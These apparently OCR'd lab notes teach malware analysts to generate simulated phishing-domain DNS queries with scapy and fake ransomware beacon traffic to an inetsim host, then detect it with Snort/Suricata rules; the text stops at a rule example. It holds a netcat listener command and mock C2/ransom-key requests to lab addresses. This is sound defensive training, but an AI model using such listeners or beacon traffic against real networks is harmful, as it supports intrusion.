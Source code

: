 Most of the interesting stuff happens in the app payload portion of the packets

## Simulate malicious DNS request with SCAPY

You'e a malware analyst, the org is receiving emails from phishing domains.

Solution: write a Suricata (or other tool) rule that detects these domains

1. Write a scapy script that sends a packet with a set of phishing domains in the DNS payload
2. Open up CLI window, enter
    `sudo su`
    `nc -lvp 1337`
    `fakedns` sends user-friendly DNS responses
3. Open Wireshark, filter on `dns.qry.type`

### Example scapy script

        `#!/usr/bin/env python
        from scapy.all import *
        malicious_domain_list = ["c2c-server.local", "password-facebook.local", "gmail.com4-users-reset.account.local", "isp-payment-fake.com"]
        for domain in malicious_domain_list:
            query=IP(dst="172.16.8.53")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=domain))
            sr1(query,verbose=0)`

## Simulate ransomware traffic with scapy and analyze with remnux

1. Run `inetsim` in CLI

2. Open another CLI, run a set of commands like this:

      `import urllib
      #http suricata rule example, not real malware, just simulation of traffic
      req = urllib.request.Request(url="http://172.16.8.57/cryptkey.php=12345&WALLETID=223", headers={'User-Agent':' Mozilla Hackers'})
      handler = urllib.request.urlopen(req)`

3. Ctrl-C `inetsim` then look in the log for the URI string of interest, in this case `cryptkey.php=12345&WALLETID=223`

4. Can also find the string of interest in Wireshark

## Snort installation

### Snort and Suricata keywords

A rule has the following format:

`action` - What to do if a packet meets the rule - `alert`, `log`, `pass`, `reject` (Suricata only)
`header` - protocol, IP, port, and direction
`options` - `offset`, `content`, `distance`, `nocase`, `within`

Example:
